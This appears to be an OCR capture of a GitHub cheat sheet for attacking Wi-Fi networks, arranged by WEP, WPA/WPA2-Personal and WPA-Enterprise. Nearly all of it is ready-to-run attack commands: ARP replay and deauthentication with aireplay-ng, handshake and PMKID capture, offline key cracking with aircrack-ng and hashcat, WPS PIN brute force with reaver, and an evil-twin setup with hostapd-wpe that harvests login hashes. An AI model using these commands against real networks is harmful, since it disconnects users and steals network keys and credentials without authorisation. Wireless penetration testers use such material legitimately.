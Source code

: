 ## NETWORK TYPE: Wired Equivalency Prototol (WEP) Networks
Very weak encryption, crackable in minutes.

```bash
Capture a large number of IVs (Initialization Vectors) with airodump-ng
Speed up collection with ARP replay:
   aireplay-ng -3 -b <BSSID> -h <your MAC> wlan1
Crack key with:
   aircrack-ng <capture file>
```

## NETWORK TYPE: WPA/WPA2-Personal (PSK) Networks
Shared password, secured via a 4-way handshake.
Primary attack: Capture the handshake and crack it offline with a wordlist.

Standard Attack Flow
```bash
Start monitor mode and capture traffic: airodump-ng
Deauth a client: aireplay-ng -0 10 -a <BSSID> -c <client> wlan1
Wait for reconnect — capture the 4-way handshake
Crack:
    aircrack-ng -w <wordlist> <capture.cap>
```

PMKID Attack (No client needed)
Works on some routers (mainly Broadcom)
```bash
hcxdumptool -i wlan1mon -o dump.pcapng --enable_status=1
hcxpcapngtool -o pmkid.hccapx dump.pcapng
hashcat -m 16800 pmkid.hccapx -a 0 <wordlist>
```
WPS PIN Brute-force (Vulnerable routers with WPS enabled)
```bash
reaver -i wlan1mon -b <BSSID> -vv
```

Offline Rainbow Table Attacks (e.g. cowpatty)
```bash
Pre-computed PMKs based on SSID and dictionary
```



## NETWORK TYPE: WPA/WPA2-Enterprise (WPA-MGT / WPA-EAP) Networks
Uses 802.1X with a RADIUS server and EAP authentication
Password not stored in a static hash like PSK — must be captured in real-time during login and cracked.

Evil Twin (PEAP/MSCHAPv2)
```bash
Spoof real SSID using hostapd-wpe
User connects, supplies credentials → hashes logged
Crack with asleap or hashcat (MSCHAPv2 hash)
```
